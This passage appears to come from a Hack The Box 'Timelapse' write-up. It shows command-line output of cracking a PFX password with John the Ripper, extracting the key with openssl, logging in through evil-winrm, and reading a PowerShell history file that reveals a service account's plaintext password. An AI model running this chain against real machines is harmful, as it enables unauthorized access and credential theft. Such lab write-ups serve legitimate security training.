 Finally, I use john to crack the test.txt file which contains the hash.:
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt test.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy      (legacyy_dev_auth.pfx)     
1g 0:00:00:12 DONE (2023-03-27 19:47) 0.08149g/s 263385p/s 263385c/s 263385C/s thumper1990..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Once the password is cracked I can then extract the SSL certificate and private key from the pfx file using the following commands.:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

Now, I can use this information to login to the machine via **evil-winrm:**
```
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
whoami
type
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](./_resources/HTB_Timelapse.resources/image.png)

Next, with winpeas, I found the following file which is the **PowerShell** history file and it contains the credentials for the svc\_deploy user.:
```
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type consoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```
